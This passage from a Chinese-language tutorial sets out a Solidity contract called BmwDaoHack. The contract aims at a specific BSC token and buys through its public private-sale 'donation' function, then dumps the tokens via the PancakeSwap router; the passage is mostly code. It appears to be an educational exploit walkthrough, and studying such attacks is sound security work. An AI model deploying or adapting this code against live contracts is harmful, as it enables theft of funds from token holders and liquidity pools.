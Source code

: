 balanceOf：获取代币余额

donation：公开私募

approve：授权（用于卖出代币时的授权）

### 5.4 定义主合约和主要属性

```
contract BmwDaoHack {

    address private owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;

    address private bnb = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address private bmwdao = 0xFfd7581fbad3713b049A64db4316E34614970777;
    address private pair = 0x45139fe54B18a419dc4A2E78eE25Ccd7c72c8626;
    address private router = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
    IUniswapV2Pair private bmwdaoPair = IUniswapV2Pair(pair);
    IUniswapV2Router private bmwdaoRouter = IUniswapV2Router(router);
    IBmwDaoERC20 private bmwdaoERC20 = IBmwDaoERC20(bmwdao);

}
```

### 5.5 定义获取公开私募的方法

```
function get() public payable {
    console.log("==========msg.value==========");
    console.log(msg.value);
    require(msg.sender == owner, "No permission.");
    bmwdaoERC20.donation{value: msg.value}();
    console.log("==========getContractBalance==========");
    console.log(getContractBalance());
    console.log("==========getContractBmwdaoBalance==========");
    console.log(getContractBmwdaoBalance());
}
```

### 5.6 定义卖出代币的方法

```
function sell() public {
    bmwdaoERC20.approve(router, 1000000000000);
    uint curTime = block.timestamp;
    curTime = curTime + 1200;
    (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast) = bmwdaoPair.getReserves();
    uint amountIn = getContractBmwdaoBalance();
    console.log(amountIn);

    uint left = reserve0 / reserve1;
    uint amountOutMin = left * amountIn;
    amountOutMin = amountIn * 997 * reserve0 / (reserve1 * 1000 + amountIn * 997);

    address[] memory path = new address[](2);
    path[0] = bmwdao;
    path[1] = bnb;

    address to = address(this);

    bmwdaoRouter.swapExactTokensForETH(amountIn, amountOutMin, path, to, curTime);
    console.log("==========succeed==========");
    console.log("==========getContractBalance==========");
    console.log(getContractBalance());
    console.log("==========getContractBmwdaoBalance==========");
    console.log(getContractBmwdaoBalance());
```